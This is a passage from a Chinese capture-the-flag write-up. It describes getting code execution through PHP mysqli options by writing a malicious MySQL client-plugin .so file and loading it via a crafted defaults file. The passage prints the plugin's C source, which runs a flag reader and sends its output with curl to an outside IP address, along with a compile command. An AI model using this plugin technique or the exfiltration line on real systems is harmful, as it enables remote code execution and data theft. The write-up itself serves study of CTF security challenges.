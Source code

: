```mysql
update user set authentication_string='' where user='test';
# UPDATE command denied to user 'test'@'localhost' for table 'user' in /var/www/html/index.php
ALTER USER 'test'@'localhost' IDENTIFIED BY '123456';
# mysqli_real_connect(): (42000/1227): Access denied; you need (at least one of) the CREATE USER privilege(s) for this operation in /var/www/html/index.php
```

{{% /spoiler %}}

正确的思路：

首先用`MYSQLI_INIT_COMMAND`写一个恶意的.so文件（包含mysql连接信息，同时可以rce并外带flag），然后再写一个Defaults配置将client plugin-dir指向/tmp下面那个目录，之后通过`MYSQLI_READ_DEFAULT_FILE`指定为那个配置信息，触发.so

payload参考自[SU战队wp](https://mp.weixin.qq.com/s/DCxrEmkYzFdUa2YHOdnD7g)

```c
#include <mysql/client_plugin.h>
#include <mysql.h>
#include <stdio.h>

/*
Ubuntu x86_64:
apt install libmysqlclient-dev
gcc -shared -I /usr/include/mysql/ -o evilplugin.so evilplugin.c
NOTE: the plugin_name MUST BE the full name with the directory traversal!!!
*/

static int evil_init(char * a, size_t b , int c , va_list ds)
{
    system("/readflag | curl -XPOST http://101.35.114.107:8426/ -d @-");
    return NULL;
}

static int evilplugin_client(MYSQL_PLUGIN_VIO *vio, MYSQL *mysql)
{
int res;
  res= vio->write_packet(vio, (const unsigned char *) mysql->passwd, strlen(mysql->passwd) + 1);
  return CR_OK;
}

mysql_declare_client_plugin(AUTHENTICATION)
  "auth_simple",  /* plugin name */
  "Author Name",                        /* author */
  "Any-password authentication plugin", /* description */
  {1,0,0},                              /* version = 1.0.0 */
  "GPL",                                /* license type */
  NULL,                                 /* for internal use */
  evil_init,                                 /* no init function */
  NULL,                                 /* no deinit function */
  NULL,                                 /* no option-handling function */
  evilplugin_client                    /* main function */
mysql_end_client_plugin;
```

```bash
gcc t.c -fPIC -shared -o poc.so
```

本地环境拉了，一直编译不成功 即使已经安装了对应的库。。。。。。

（真的不是我懒（（（（（（（（



